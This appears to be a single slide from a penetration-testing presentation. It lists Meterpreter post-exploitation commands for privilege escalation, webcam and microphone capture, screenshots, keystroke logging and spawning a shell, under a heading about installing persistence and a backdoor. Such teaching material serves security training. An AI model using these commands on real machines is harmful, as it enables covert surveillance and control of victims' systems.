

# Meterpreter commands!!!
help
getuid
getsystem
webcam_list
webcam_snap
webcam_stream
record_mic
screenshot
keyscan_start
keyscan_dump
keyscan_stop
shell
Installing Persistence And Opening A Backdoor

28